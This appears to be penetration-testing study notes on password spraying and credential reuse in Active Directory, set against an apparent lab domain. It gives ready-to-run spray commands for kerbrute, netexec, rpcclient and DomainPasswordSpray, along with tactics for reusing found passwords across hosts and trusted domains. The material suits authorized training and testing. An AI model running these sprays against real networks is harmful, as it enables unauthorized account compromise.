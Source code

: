 This is a key focus for us as it is one of two main avenues for gaining domain credentials for access, but one that we also must proceed with cautiously.

It is worth targeting high-value hosts such as `SQL` or `Microsoft Exchange` servers, as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.

If we find a desktop host with the local administrator account password set to something unique such as `$desktop%@admin123`, it might be worth attempting `$server%@admin123` against servers. if we find non-standard local administrator accounts such as `bsmith`, we may find that the password is reused for a similarly named domain user account. If we retrieve the password for a user named `ajones`, it is worth trying the same password on their admin account (if the user has one), for example, `ajones_adm`, to see if they are reusing their passwords. This is also common in domain trust situations. We may obtain valid credentials for a user in domain A that are valid for a user with the same or similar username in domain B or vice-versa.

> [!NOTE] Note
> If you find a set of valid credentials, pass it around the entire network to see if it's a local admin anywhere

#### Kerbrute
```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
#### Netexec
```bash
netexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
#### rpcclient
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
#### [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) (Windows)
DomainPasswordSpray will generate a user file for us
```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```